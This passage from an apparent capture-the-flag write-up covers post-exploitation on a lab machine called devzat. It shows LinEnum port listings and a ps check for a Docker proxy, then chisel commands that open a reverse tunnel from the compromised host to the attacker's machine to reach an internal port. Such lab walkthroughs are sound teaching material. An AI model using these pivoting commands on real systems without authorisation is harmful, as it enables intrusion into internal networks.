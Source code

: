 Using LinEnum script, we realized that there is an open port 8086 on the localhost.

```
[-] Listening TCP:
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      835/./petshop       
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8086          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8443          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::8000                 :::*                    LISTEN      838/./devchat
```

Checking the processes for port 8086, we realize that there is a running docker container on this port.

```
patrick@devzat:~$ ps -aux | grep "8086"
ps -aux | grep "8086"                                                                                                                                                                                               
root        1256  0.0  0.1 549056  3808 ?        Sl   Nov28   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8086 -container-ip 172.17.0.2 -container-port 8086
patrick   314167  0.0  0.0   6432   740 pts/0    S+   05:12   0:00 grep --color=auto 8086
```

Now, we will transfer the chisel executable to the server and forward port 8086 to our local machine so that we can examine the open port on the local host. After this is done, we will now be able to examine port 8086 of the localhost on port 8000 of our local machine.

```
## On patrick's SSH session
patrick@devzat:~$ ./chisel_amd64 client 10.10.16.4:8000 R:8086:127.0.0.1:8086
./chisel_amd64 client 10.10.16.4:8000 R:8086:127.0.0.1:8086
2021/11/29 05:32:49 client: Connecting to ws://10.10.16.4:8000
2021/11/29 05:32:53 client: Connected (Latency 269.22667ms)
## On our local machine
┌──(kali㉿kali)-[~/Desktop/chisel]
└─$ ./chisel_amd64 server -p 8000 --reverse
2021/11/29 00:21:45 server: Reverse tunnelling enabled
2021/11/29 00:21:45 server: Fingerprint ZXkTogOkPkBm/OTkaKwdKIB3Nlzrfcb8nKJUpYq3VVU=
2021/11/29 00:21:45 server: Listening on http://0.0.0.0:8000
2021/11/29 00:26:30 server: session#1: tun: proxy#R:8086=>8086: Listening
```

